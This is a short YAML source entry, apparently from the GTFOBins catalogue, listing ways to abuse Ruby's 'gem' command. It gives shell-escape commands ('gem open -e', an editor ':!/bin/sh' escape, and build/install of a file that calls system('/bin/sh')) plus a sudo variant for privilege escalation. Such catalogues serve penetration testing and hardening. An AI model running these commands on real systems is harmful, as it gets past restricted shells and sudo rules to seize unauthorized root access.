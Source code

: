 ```yaml
---
functions:
  shell:
    - description: This requires the name of an installed gem to be provided (`rdoc` is usually installed).
      code: gem open -e "/bin/sh -c /bin/sh" rdoc
    - description: This invokes the default editor, which is likely to be [`vi`](/gtfobins/vi/), other functions may apply. This requires the name of an installed gem to be provided (`rdoc` is usually installed).
      code: |
        gem open rdoc
        :!/bin/sh
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        gem build $TF/x
    - description: This executes the specified file as [`ruby`](/gtfobins/ruby/) code.
      code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/x
        gem install --file $TF/x
  sudo:
    - description: This requires the name of an installed gem to be provided (`rdoc` is usually installed).
      code: sudo gem open -e "/bin/sh -c /bin/sh" rdoc
---
```


